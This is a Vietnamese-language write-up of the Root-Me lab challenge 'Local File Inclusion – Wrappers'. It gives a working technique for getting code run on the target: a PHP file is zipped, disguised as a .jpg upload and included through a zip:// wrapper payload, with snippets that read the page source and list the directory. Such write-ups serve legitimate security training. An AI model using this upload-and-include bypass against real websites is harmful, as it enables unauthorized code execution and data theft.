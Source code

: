 # [Rootme] Local File Inclusion – Wrappers

Giao diện web cho phép ta tải file ảnh lên, thử tải 1 bức ảnh bất kì lên web và nhấn vào xem thì không có gì và bài này cũng không cho ta xem source ngay từ đầu.
Nên tập trung lại vào cái LFI tại vì nó có page=view?id=xxx, chèn mấy cái kiểu bình thường của FLI thì phát hiện hai cái filter. một là không cho sử dụng php hay là không cho sử dụng “../” . 

Các bạn có thể tham khảo một số cách khai thác ở đây:


 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

 https://www.cdxy.me/?p=752


 Cách giải quyết bài này sẽ dùng PHP FLI wrapper với “zip”

```php
 <pre>
   <?php 
   show_source('index.php');
   ?>
</pre>
```

Đầu tiên tạo 1 file php với nội dung như trên rồi tiến hành zip file lại, sau đó đổi tên file zip thành file .jpg rồi tải file lên.(lưu ý các bạn nên để tên file ngắn nhất, mình để tên file là a.php)

Khi up thành công bạn để ý trong source nó sẽ có đường dẫn tới file:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1131146241108095107/image.png)

Dùng payload: ?page=zip://tmp/upload/cfWmnXjX2.jpg%23a

![](https://cdn.discordapp.com/attachments/1124588087931043891/1131147858825986129/image.png)

Vậy là đã thành công trong việc tải lên mã độc nhưng flag không nằm trong source, vậy là cần phải tìm flag đang nằm ở đâu. Hàm system(), shell_exec() bị chặn. Vậy thì còn 1 cách là dùng hàm scandir() (https://vietjack.com/php/ham_scandir_trong_php.jsp)

```php
<pre>
   <?php
    $dir='./';
    $file1 = scandir($dir);
    print_r($file1);
   ?>
</pre>
```
Tạo file a.php với nội dung như trên rồi nén thành file zip và đổi tên thành a.jpg sau đó tải lên và truy cập vào file:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1131150686718021682/image.png)

Flag nằm trong file flag-mipkBswUppqwXlq9ZydO.php, ta làm tương tự như cách ta xem source của file index.php là sẽ có flag.

Mình tham khảo wu của  2 nguồn này:
- https://nhienit.wordpress.com/2020/05/02/rootme-local-file-inclusion-wrappers/

- https://thanhlocpanda.wordpress.com/2018/05/16/write-up-root-me_-local-file-inclusion-wrapper-php_loose-comparison/
